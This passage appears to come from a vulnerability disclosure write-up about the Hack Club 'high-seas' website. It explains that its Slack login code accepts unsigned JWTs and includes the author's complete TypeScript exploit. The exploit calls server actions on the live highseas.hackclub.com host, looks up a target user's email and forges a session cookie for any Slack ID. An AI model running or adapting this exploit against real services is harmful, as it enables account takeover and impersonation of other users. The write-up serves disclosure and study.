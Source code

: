 After finding this vulnerability, I wanted to see if the authentication functions also had something similar. The [`createSlackSession` function](https://github.com/hackclub/high-seas/blob/04eb2fad9d22cc04b1606604a637204ab9c5fcef/src/app/utils/auth.ts#L121-L189) was my main target, as at first glance it did not look like it verified anything because it was only used by the [slack login endpoint](https://github.com/hackclub/high-seas/blob/04eb2fad9d22cc04b1606604a637204ab9c5fcef/src/app/api/slack_redirect/route.ts). It calls `parseJwt` which **does not verify that the JWT passed in is properly signed**. `parseJwt` only extracts the JWT payload and returns it, and the rest of the `createSlackSession` code does not verify that the parsed JWT payload is valid either. As a result, I was able to create tokens for any slack ID as long as I was able to generate a JWT that looked valid enough. I used one of the many JWT libraries for JS to encode my custom payload that only had the target slack ID and the email. I was able to generate tokens at will with the `createSlackSession` function, and they were returned in the `Set-Cookie` header as the `hs-session` cookie as the code assumed it was being called in the slack login endpoint.

This is the original code I used to exploit the second vulnerability:
```typescript
async function generateToken(id: string) {
	const params = (action: string, args: any[]) => {
		return {
			"headers": {
				"accept": "text/x-component",
				"content-type": "text/plain;charset=UTF-8",
				"next-action": action
			},
			"body": JSON.stringify(args),
			"method": "POST"
		}
	};
	const encode = (input: string) => {
		let unencoded = new TextEncoder().encode(input)
		const CHUNK_SIZE = 0x8000
		const arr = []
		for (let i = 0; i < unencoded.length; i += CHUNK_SIZE) {
			// @ts-expect-error
			arr.push(String.fromCharCode.apply(null, unencoded.subarray(i, i + CHUNK_SIZE)))
		}
		return btoa(arr.join('')).replace(/=/g, '').replace(/\+/g, '-').replace(/\//g, '_')
	}

	// src/app/utils/airtable.ts : getSelfPerson
	const personRes = await fetch("https://highseas.hackclub.com/", params("fdfebd3d5565f8459d07200b9c50d7d6ab4dec39", [id])).then(r => r.text());
	const person = JSON.parse(`{"id":"` + personRes.split("\n").map(x => x.substring(x.indexOf(":") + 1))[1].split(`{"id":"`)[1]);
	const jwt = `.${encode(JSON.stringify({ sub: id, person: person.fields.email, }))}.`;
	// src/app/utils/auth.ts : createSlackSession
	const sessionRes = await fetch("https://highseas.hackclub.com/", params("f0e8ca9e5e71bfe94ec69fa168a7b6973d66134b", [jwt]));

	// @ts-expect-error
	return decodeURIComponent(sessionRes.rawHeaders["set-cookie"].split(";")[0].split("=")[1])
}
```
